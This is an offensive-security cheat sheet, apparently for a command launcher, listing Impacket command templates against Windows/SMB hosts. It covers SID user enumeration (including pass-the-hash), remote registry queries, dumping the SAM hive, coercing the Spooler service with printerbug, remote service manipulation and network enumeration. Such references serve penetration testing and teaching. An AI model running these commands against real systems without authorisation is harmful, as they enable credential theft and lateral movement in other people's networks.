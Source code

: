 # Impacket

% impacket, windows, smb, 445

## lookupsid - SID User Enumeration,  extract the information about what users exist and their data. 
#plateform/linux #target/remote #cat/RECON 

```
lookupsid.py -domain-sids <domain>/<user>:<password>@<ip>
```

## lookupsid - SID User Enumeration,  extract the information about what users exist and their data.  (pth)
#plateform/linux #target/remote #cat/RECON 

```
lookupsid.py -hashes :<nt_hash> -domain-sids <domain>/<user>@<ip>
```


## reg - query registry info remotely
#plateform/linux #target/remote #cat/RECON 
```
reg.py '<domain>/<user>:<password>'@<ip> query -keyName HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows -s
```
## reg - dump sam remotely
#plateform/linux #target/remote #cat/RECON 
```
reg.py '<domain>/<user>:<password>'@<ip>  backup -o '<smb_share_UNC>'
```

## rpcdump - list rpc endpoint
#plateform/linux #target/remote #cat/RECON 
```
rpcdump.py '<domain>/<user>:<password>'@<ip>
```


## rpcdump - Find Spooler services (printerbug coerce)
#plateform/linux  #target/remote #cat/RECON 
```
rpcdump.py <domain>/<user>:'<password>'@<dc_name> | grep MS-RPRN
```

## rpcdump - Find anonymous Spooler services (printerbug coerce)
#plateform/linux  #target/remote #cat/RECON 
```
rpcdump.py <dc_name> | grep -A 6 MS-RPRN
```

## services.py - (start, stop, delete, read status, config, list, create and change any service) remote
#plateform/linux #target/remote #cat/RECON  #cat/ATTACK/EXPLOIT  
```
services.py '<domain>/<user>:<password>'@<ip> <action>
``` 

## getarch - find target architecture (64 or 32 bits)
#plateform/linux #target/remote #cat/RECON 
```
getArch.py -target <ip>
```

## netview - enumeration tool (ip/shares/sessions/logged users) - need dns set
#plateform/linux #target/remote #cat/RECON 
```
netview.py <domain>/<user> -target <ip> -users <users_file>
```


